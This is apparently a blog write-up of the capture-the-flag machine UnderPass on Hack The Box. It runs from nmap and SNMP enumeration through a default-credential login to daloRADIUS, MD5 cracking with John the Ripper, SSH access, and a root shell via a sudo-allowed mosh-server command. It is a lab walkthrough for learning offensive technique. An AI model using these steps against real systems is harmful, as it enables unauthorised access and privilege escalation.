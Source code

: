 # UnderPass
### SNMP disclosure, Default authentication vulnerability and Mosh

- `10.10.11.48`
- Linux
- Easy

It's been a minute for me, lets take a crack at it! 

Start with [NMap](/blog/tools/nmap) of course.

    nmap -sC -sV -vv 10.10.11.48

Looks like we get responses from the `SSH` port `22` and `HTTP` on port `80`.

    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
    |   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
    80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |_  Supported Methods: POST OPTIONS HEAD GET
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Visiting the index page for the web server at `http://10.10.11.48/` yields the default apache page

We can try to brute force web directories with and virtual hosts with `gobuster`.

However, it doesn't seem like there's any common routes on this web server... 

The machine doesn't seem to host any `DNS` server. let's do a full port scan.

    nmap -sS -p- -vv underpass.htb

Same thing.

    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


Hmm... what about `UDP`?

    nmap -sU -vv underpass.htb

Oh! looks like we have `SNMP` related things?

    PORT     STATE         SERVICE REASON
    161/udp  open          snmp    udp-response ttl 63
    1812/udp open|filtered radius  no-response
    1813/udp open|filtered radacct no-response

Okay, down the [SNMP](/blog/notes/snmp) rabbit hole.

found a useful command called [snmpwalk](/blog/tools/snmpwalk) which dumps public `SNMP` records. 

Apparently version `3` of `SNMP` introduces stronger authentication so its always worthwhile to try the weaker versions of the protocol first.

Just for future reference. `SNMP` version `2c` and below uses something like a password to protect the data called a `community string` 

Don't ask me why `2c` is called `2c` instead of `2`. I didn't look into it.

For publicly available data, usually that password is something like `public`. According to
some older sources, it looks like `private` is also a common default community string. 

Running this command will dump all the public records using the `2c` version of the protocol

    snmpwalk -v 2c -c public underpass.htb

Looks like we found a username, super useful. This looks like something that could even be found in the wild.

    SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
    SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
    DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (4135752) 11:29:17.52
    SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
    SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
    SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas


We also found what looks like the name of a service. `daloradius`

Doing a quick search online, [that's exactly what it is.](https://github.com/lirantal/daloradius.git) 

Found `/daloradius/app/users/login.php` which will allow me to log into the application. 

Maybe from here we can gather the version of the webserver and look for any CVEs.

Tried all the default credentials in the README but no luck...

_~about 2 hours pass~_

Okay, so i was messing around some more and this is why it's important to double check things. 

`daloradius/app/users/login.php` 

is for regular users. 

`daloradius/app/operators/login.php` 

is for admins. 

![daloradius-admin](/static/media/ctf/htb-daloradius.png)

Anyway... It's important to reset the default password after installing one of these dashboards. Otherwise _anyone_ could just read the GitHub documentation and log in. 

I found one user named `svcMosh` in the users list. The word `Mosh` leads me to believe that the program `Mosh` is involved somehow, but we'll have to see.

When we go the users page, an `MD5` hash for our user is seemingly right here in the UI.

`412DD4...` is the first 6 characters of the hash. You can see for yourself what the rest of the chracters are. We're going to save this into `md5sum.txt`

    john --wordlist=./rockyou.txt --format=Raw-MD5 ./md5sum.txt

[John the Ripper](https://www.openwall.com/john/) will make short work of this hash with the `rockyou.txt` wordlist.

Okay... Using those creds with `SSH` doesnt seem to do anything. not with `steve` or `svcmosh`

maybe this is just something that will come in handy later?

...`version 2.2 beta / 03 Jul 2024` so maybe no SQLi like we see on `exploitdb`...

_~about 2 more hours pass~_

I WAS BEING DUMB. CASE MATTERS

`ssh svcMosh@underpass.htb` with the cracked hash gives us a user on the box. 

![dalradius-user-shell](/static/media/ctf/htb-daloradius-user.png)

Yay!

The first thing to do is check if we straight up have root privs for anything, so `sudo -l` which gives us the interesting path of `/usr/bin/mosh-server`

    Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User svcMosh may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/bin/mosh-server

I will save you the wasted time and effort I made while trying to crack this, but this is kinda sneaky.

the program `mosh` works by running `mosh-client` to interact with `SSH`, and then running a command through `SSH` to start `mosh-server` on the remote machine.

the `mosh` command has an argument called `--server` which is _what I thought was_ a strict path, however it's perfectly valid to supply arguments as well.

Seeing this, there's nothing stopping us from supplying `sudo /usr/bin/mosh-server` for the path.

    mosh --server="sudo /usr/bin/mosh-server" localhost
    
drops us into a root shell.

![dalradius-root-shell](/static/media/ctf/htb-daloradius-root.png)

Nice! 

I would say this machine is very easy. I was able to figure it out without any help except for the `SNMP` foothold, but that was minimal. 

_~ Happy Hacking_